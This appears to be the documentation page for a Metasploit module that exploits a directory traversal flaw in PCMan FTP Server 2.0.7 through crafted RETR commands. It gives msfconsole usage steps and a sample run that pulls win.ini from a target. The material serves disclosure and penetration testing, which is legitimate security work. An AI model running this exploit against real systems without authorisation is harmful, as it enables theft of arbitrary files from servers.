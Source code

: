 ## Vulnerable Application

This module exploits a directory traversal vulnerability found in PCMan FTP Server 2.0.7. This vulnerability allows an attacker to download arbitrary files from the server by crafting a RETR command that includes file system traversal strings such as '..//'

Linked to software download [Exploit-DB](https://www.exploit-db.com/apps/9fceb6fefd0f3ca1a8c36e97b6cc925d-PCMan.7z)

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/ftp/pcman_ftp_traversal`
  3. Do: `show options`
      ...show and set options...
  4. Do: `run`

## Scenarios

A run on Windows 7 (x64) and PCMan FTP Server 2.0.7.

  ```
  msf > use modules/auxiliary/scanner/ftp/pcman_ftp_traversal
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > show options
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > set RHOST 1.1.1.1
    rhost => 1.1.1.1
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > set PATH WINDOWS\\win.ini
    PATH => WINDOWS\win.ini
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > run    
    [+] 192.168.2.252:21      - Stored WINDOWS\win.ini to /root/.msf4/loot/20191120201523_default_1.1.1.1_pcman.ftp.data_069450.ini
    [*] 192.168.2.252:21      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```
